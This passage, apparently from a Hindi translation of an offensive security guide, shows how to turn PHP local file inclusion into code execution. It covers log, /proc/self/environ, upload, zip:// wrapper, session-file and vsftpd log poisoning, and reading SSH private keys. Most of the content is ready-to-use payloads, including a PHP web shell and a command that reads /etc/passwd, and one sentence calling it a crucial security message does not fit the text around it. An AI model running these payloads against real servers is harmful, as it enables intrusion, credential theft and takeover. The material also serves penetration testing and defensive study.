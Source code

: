एक लॉग फ़ाइल की तरह, पेलोड को यूज़र-एजेंट में भेजें, यह /proc/self/environ फ़ाइल में प्रतिबिंबित होगा
```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```
### अपलोड के माध्यम से

यदि आप एक फ़ाइल अपलोड कर सकते हैं, तो उसमें शैल पेलोड इंजेक्ट करें (उदा. : `<?php system($_GET['c']); ?>` )।
```
http://example.com/index.php?page=path/to/uploaded/file.png
```
### ज़िप फ़ाइल अपलोड के माध्यम से

एक ज़िप फ़ाइल अपलोड करें जिसमें एक PHP शैल संकुचित हो और पहुंचें:
```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```
### PHP सत्र के माध्यम से

जांचें कि वेबसाइट PHP सत्र (PHPSESSID) का उपयोग करती हैं
```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
PHP में ये सेशन _/var/lib/php5/sess\\_\[PHPSESSID]\_ फ़ाइलों में स्टोर किए जाते हैं।
```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
चूंकि यह एक वेब अनुक्रमणिका है, इसलिए यह एक अत्यंत महत्वपूर्ण सुरक्षा संदेश है। कृपया इसे ध्यान से पढ़ें और इसे अपने वेब अनुक्रमणिका के सुरक्षा सुनिश्चित करने के लिए उपयोग करें।
```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
एलएफआई का उपयोग करें ताकि PHP सत्र फ़ाइल को समाहित किया जा सके।
```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```
### माध्यम से ssh

यदि ssh सक्रिय है तो जांचें कि कौन सा उपयोगकर्ता उपयोग किया जा रहा है (/proc/self/status & /etc/passwd) और **\<HOME>/.ssh/id\_rsa** तक पहुंचने का प्रयास करें।

### **Via** **vsftpd** _**logs**_

FTP सर्वर vsftpd के लॉग _**/var/log/vsftpd.log**_ पर स्थित हैं। उस स्थिति में जहां एक स्थानीय फ़ाइल समावेशन (LFI) दुरुपयोग संभावना है, और एक उजागर vsftpd सर्वर तक पहुंच संभव है, तो निम्नलिखित कदम विचार किए जा सकते हैं:

1. लॉगिन प्रक्रिया के दौरान उपयोगकर्ता फ़ील्ड में एक PHP पेलोड इंजेक्ट करें।
2. इंजेक्शन के बाद, LFI का उपयोग करके _**/var/log/vsftpd.log**_ से सर्वर लॉग्स प्राप्त करें।
